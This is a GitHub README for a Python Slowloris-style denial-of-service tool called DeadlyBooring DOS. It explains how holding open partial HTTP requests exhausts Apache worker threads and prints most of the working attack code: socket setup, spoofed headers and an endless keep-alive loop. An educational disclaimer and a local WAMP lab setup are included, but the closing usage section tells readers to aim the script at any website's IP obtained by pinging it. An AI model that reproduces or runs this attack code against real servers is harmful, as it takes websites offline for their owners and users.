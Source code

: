 # Deadly Booring DOS

Denial of Service attacks do not always have to flood the server with requests to make him shut down. Deadly Booring DOS takes a much more elegant appraoch: Instead sending as much data as possible, we send as little data as we can.
DeadlyBooring is a free interpretation of SlowLoris DOS.

### *Preface*

Deadly Booring DOS was purely written for educational researches. I am going to explain how you can set up a simple appache website on one of your old machines that you can use to test DeadlyBooring. Never run such an attack against IP addresses that are not under your control. Never abuse the script to harm anybody. You got your own responsibility.

# The Idea

DeadlyBoorig DOS looks at DOS attacks from a different perspective. To understand how it works, we first need to understand internet protocols in general. What our browser is doing when we enter *<http://www.github.com>* is sending a HTTP GET Request to the IP address of the github servers (which is *192.30.253.113*, by the way) to the port 80, which is usually used to serve HTTP Requests. Such a HTTP GET request may say *"Please give me the /joelbarmettlerUZH/DeadlyBooring_DOS site"*, to which the github servers will respond with the corresponding HTML file.

## HTTP GET Requests
---

The normal usage of such GET requests is to just type an URL into your browser, which then asks the DNS server to convert github.com into an IP and formulates the right GET request for all the content that needs to be displayed, such as images and scripts. The browser asks for data - the server responds - done.

The interesting thing is that such HTTP GET requests follow a well defined schema: They start with the content the browser is asking for, followed by the used Protocol *(HTTP/1.1)*, ended with two line-break characters \n\n. As long as the server does not retreive these two newline characters, he is waiting for more data to come, thinking the browser has a temporary internet loss or simply a slow connection. Eventually, when the server does not hear anything from the browser for a bunch of seconds, he drops the connection to the browser again. This is quiet a normal behaviour.

## Apache Servers
---

DeadlyBooring DOS is now making use of this server behaviours: Most of the internet servers (arround 50%) run on apache, an open source HTTP Server Project. Appache is built in a way that the server opens a new Thread for every user that is requesting content, answering his requests until it is done. A small server only has a limited amount of such threads he can have opened simultaniously - meaning he can only serve a limited amount of users at once. Normally, this is no problem at all, since small websites rarely have several hundret users that want to make a request to the werbserver in the same second. What DeadlyBooring DOS does is opening up connections to all threads on the appache webserver and making an unfinished HTTP GET Request every few seconds, which makes the thread wait for more data and therefore prevents the webserver from closing the connection. This means that we pretend to be several hundret users with a deadly slow internet connection, making the whole server wait for data to come, but we will never finish sending our incomplete requests every few seconds.

While the server has all its threads dedicated to our script, the webserver will not answer any other GET requests from other users, since he is busy waiting for our nonsense data. Meanwhile, our computer barely needs any computing power since all we do is sending several hundrets tiny small data packages to a server every second - which is by no means a task you would even recognize running in your background.

# The Code

The code is fairly simple and just under 50 lines. First, we create the DeadlyBooring class and provide it with information about to what IP we would like to lead our attack to, as well as the Port (80 is the standard port for webserver) and the number of parallel connections that we want to establish. Lastly, we fake some HTTP GET header information to make our requests plausible to the server.

```python
class DeadlyBooring():
    def __init__(self, ip, port=80, socketsCount = 200):
        self._ip = ip
        self._port = port
        self._headers = [
            "User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US; rv:1.9.1.5) Gecko/20091102 Firefox/3.5.5 (.NET CLR 3.5.30729)",
            "Accept-Language: en-us,en;q=0.5"
        ]
```

## Create sockets
---

Next, we want to create our sockets. We define a method that connects a new websocket with the dedicated protocol types to the IP and Port that we specified. We send him a first GET request and the HTTP header information. Some error handling ensures that an error would not lead the DOS to stop but would just try creating a new socket instead.

```python
    def newSocket(self):
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(4)
            s.connect((self._ip, self._port))
            s.send(self.getMessage("Get /?"))
            for header in self._headers:
                s.send(bytes(bytes("{}\r\n".format(header).encode("utf-8"))))
            return s
        except socket.error as se:
            print("Error: "+str(se))
            time.sleep(0.5)
            return self.newSocket()
```

Now we just have to create a list with a few hundrets of such sockets that we can then use for our DOS attack.

```python
self._sockets = [self.newSocket() for _ in range(socketsCount)]
```

## Attack-method
---

Now let's finally write the attack method. It is actually really simple: For all sockets, we send a get request with the *X-a* header field, keeping the request open and making the server wait for the rest of the data. After each sent request, we wait vor a short period of time before sending the next one, with making sure that every socket sends data at least once every couple of seconds so that the connection is not lost. Every lost socket is immediatelly replaced with a new one taking its place, guaranteeing that free server threads are populated again.

```python
    def attack(self, timeout=sys.maxsize, sleep=15):
        t, i = time.time(), 0
        while(time.time() - t < timeout):
            for s in self._sockets:
                try:
                    print("Sending request #{}".format(str(i)))
                    s.send(self.getMessage("X-a: "))
                    i += 1
                except socket.error:
                    self._sockets.remove(s)
                    self._sockets.append(self.newSocket())
                time.sleep(sleep/len(self._sockets))
```

# Testing

In order to test our code, we need to create a protected environment, since we can not just start a DOS attack on some server that we do not own. As a simple option, you can use some old hardware and run [wamp](http://www.wampserver.com/en/) on it. Install and run WAMPServer on your second device and test the connection by visiting [localhost:80](localhost:80), which should give you the default wamp interface, indicating that your server is running. If you want to go fancy, create a simple HTML file in the *www* directory where you installed whamp. Now open the command promt on your second device and run

```sh
ipconfig
```

which will give you your local IP-Address (lets assume here that the devices IP is 192.168.0.33). Test the connection to your second device via typing "192.168.0.33:80" into your browser, letting you directly access the webpage you created on your second device. If you see nothing, make sure both devices are connected to the same router, your WAMP is running and no firewall is blocking the access. Otherwise, make sure that in the WAMP httpd_config file, you set the restrictions to LOCAL (google for further instructions). If it works, try calling DeadlyBooring on the same IP on Port 80. Refresh your page and you will see that you will get no response from the server (note that the website may be cashed, so you will sill see the page).

## Usage
---

In order to run  `DeadlyBooringDOS.py`

Write the command as:

```
python3 DeadlyBooringDOS.py <target_ip>
```

To get ip address of any website, just open a `terminal` and type:

 ``` 
 ping website.com
```

You will get the website ip, just copy it and paste it.


## License
----

MIT License

Copyright (c) 2018 Joel Barmettler

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.

---

VirusZzWarning ♥ 
